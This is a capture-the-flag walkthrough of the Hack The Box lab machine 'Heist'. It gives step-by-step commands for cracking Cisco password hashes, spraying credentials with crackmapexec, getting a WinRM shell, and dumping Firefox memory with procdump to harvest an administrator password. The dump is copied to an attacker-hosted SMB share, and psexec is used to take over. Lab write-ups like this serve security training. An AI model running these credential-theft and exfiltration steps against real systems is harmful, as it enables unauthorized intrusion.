# Heist
A Windows box that abuses data exposure and misconfiguration to gain access, then extensive enumeration to escalate privileges.


**Tools: nmap, ciscot7, john, hashcat, crackmapexec, rpcclient, evil-winrm, Sysinternals (procdump), Impacket (lookupsid.py, smbserver.py, psexec.py).**

We begin with the nmap scan:  
`nmap -sC -sV -Pn 10.10.10.149`



We can see a few open ports, let's take a look at the webpage (http port 80):



There's a login page, but we don't have any credentials yet. We can try the 'Login as guest' option below the login form.



We're redirected to a 'Issues' page. We can take a look at the 'Attachment' in there, but also there are some possibly useful usernames in this page, so take note.



In the attachment we can see a bunch of Cisco ios configs. We can see that there are 3 hashes, and after doing some research, we can clearly see that these are Cisco type 5 (MD5) and type 7 (Vigenère cipher) password hashes.  
https://community.cisco.com/t5/networking-documents/understanding-the-differences-between-the-cisco-password-secret/ta-p/3163238  
https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/  
For the type 5 hash (the first on the list), we can use either hashcat or john, with the rockyou wordlist - you can either save it to a file like hash.txt or paste the hash between single quotes ' ':  
```
john --format=md5crypt --fork=4 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
hashcat -m 500 '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' /usr/share/wordlists/rockyou.txt
```



The type 7 (the other 2 hashes) can be cracked using an online tool or downloading the ciscot7 tool (both below):  
https://www.ifm.net.nz/cookbooks/passwordcracker.html  
https://github.com/theevilbit/ciscot7  

We end up with the following passwords:  
$uperP@ssword  
Q4)sJu\Y8qz\*A3?d  
stealth1agent  

Now we can try to validate the credentials with crackmapexec's smb module, because port 445 is open. First of all, save the 3 passwords in a file and in another file we can save some usernames like the ones we've seen before (hazard, admin, support, supportadmin...). We could alternatively use Metasploit's auxiliary/scanner/smb/smb_login module for this.  
`crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares`



We are able to find a match, but we don't have valid share permissions. Next up, we can use crackmapexec once again with the winrm (Windows Remote Management) module.  
`crackmapexec winrm 10.10.10.149 -u hazard -p stealth1agent`



Once again, we don't have the necessary permissions. We could try using the rid-brute module to brute-force the users' SID/RID.  
https://www.itprotoday.com/security/q-what-are-exact-roles-windows-accounts-sid-and-more-specifically-its-rid-windows-security  
`crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute`



As an alternative, we could run Impacket's lookupsid.py and rpcclient to gather the SIDs:  
```
lookupsid.py 'hazard:stealth1agent'@10.10.10.149  
rpcclient -U 'hazard%stealth1agent' 10.10.10.149  
lookupnames administrator
```

Now we can make a new 'users' list with the usernames 'Chase' and 'Jason', then run the smb module again.  
`crackmapexec smb 10.10.10.149 -u more_users.txt -p passwords.txt --shares`



We're able to find a match with the user 'Chase'. Still, this one also doesn't have access to the shares, but we can try with winrm:  
`crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`



Great, we have access to winrm. To exploit that, we can use evil-winrm.  
`git clone https://github.com/Hackplayers/evil-winrm.git`

Inside the evil-winrm folder there's the 'Gemfile', we can read it and then run a 'gem install' to download and install all the dependencies.



Now we can run evil-winrm:  
`ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`



Good, we have a shell. If we navigate to Chase's desktop, we can find the 'user.txt' with the user flag, and a 'todo.txt' file.



The file shows a list of 'stuff to-do', and the first one mentions 'keep checking the issues list'. If we enumerate further the machine, we can find a 'Firefox' folder, so this could mean that the user has Firefox constantly open to check for new issues. We can call the 'Get-Process' to see the running processes:



So there it is, Firefox is open indeed. We can use Microsoft sysinternals' procdump to generate a memory dump file of the process. Simply download the tool in your machine and upload the .exe to the target:  
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump  



Now run procdump (in one of Chase's folders, because outside those you won't have Write permission) and provide the PID of Firefox (run 'Get-Process' again if needed), I normally select the process with the most memory in use.



Now we can either run 'download firefox.exe_blabla.dmp' (might take a long time) or use Impacket's smbserver.py to create a new share in our machine. Choose a folder to host the share (in my case /root/Downloads), then run the command, with guest user and password:  
`smbserver.py -smb2support -username guest -password guest share /root/Downloads`



Now in another terminal window, back to evil-winrm, run the following, using your tun0 VPN IP:  
```
net use x:\10.10.your.IP\share /user:guest guest  
cmd /c "copy firefox.exe_blabla.dmp X:\"
```



Now in your machine, run a strings/grep/less command, then inside less use '/password' to highlight the words.



We can see a username 'admin@support.htb' and a password for that user (everything between the password= and the &login).



We can run crackmapexec again to check our permissions:  
`crackmapexec smb 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ' --shares`



Sure thing. Now we can simply use Impacket's psexec.py now and login using the credentials:  
`psexec.py administrator@10.10.10.149`



Then navigate to the Administrator's desktop and grab the root flag!  

**That's all for this box.**  
Thanks for reading and keep hacking!
